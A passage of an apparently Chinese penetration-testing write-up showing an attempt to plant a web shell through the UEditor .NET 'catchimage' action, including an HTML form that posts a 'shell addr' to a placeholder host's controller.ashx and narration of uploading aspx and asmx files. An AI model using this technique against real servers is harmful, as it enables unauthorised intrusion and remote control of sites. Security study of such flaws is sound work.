 **构造html尝试上传：**

```php
<form action="http://xxx.com/ueditor/net/controller.ashx?action=catchimage" enctype="application/x-www-form-urlencoded"  method="POST">
<p>shell addr: <input type="text" name="source[]" /></p >
<input type="submit" value="Submit" />
</form>
```

**上传！！！**。。。

**这是不能抓取外部图片？**

**我jscjasjsapodisocasociacsacjaso**

![](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-92a3b9a5392652acf3e59c81f383cd3fdddc376e.png)

![](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-6aab68e278cef4cb5842dd177197c8294591068d.gif)

受不了啦

![此图片的alt属性为空；文件名为%E6%91%B8%E9%B1%BC.gif](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-9421a77e049f1d175dc25df6e703fb1ecc1b75ed.gif)

摸鱼摸鱼摸鱼

摸鱼摸鱼摸鱼摸鱼摸鱼摸鱼摸鱼摸鱼摸鱼摸鱼

**20.抓取本地图片尝试上传**
-----------------

**不能抓取外部图片？那我能抓取它自己服务器的图片吗？**

**试试**

![](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-2ed190162c63348c90d941369743a12a13299ee0.png)

**芜湖，jpg可以抓取**

**那么aspx可以抓取吗？**

![](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-fbf51ef0d205929540b5d8e0d57f7d7389c078c0.png)

![](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-fccec56f7b2dafde71cda6011c6b2d7d93676f91.gif)

成？成功啦？

**访问一下aspx看看：**

![](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-9866f46e216ae492ef31ed44c4d7f90643a88358.png)

。。。。。。

**不慌，改为asmx看看，欸嘿有希望**

![](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-f12d009bc0aca2bcec37cff3d96c641854ced60e.png)

**下载一个Tas9er大哥写的asmx ?**
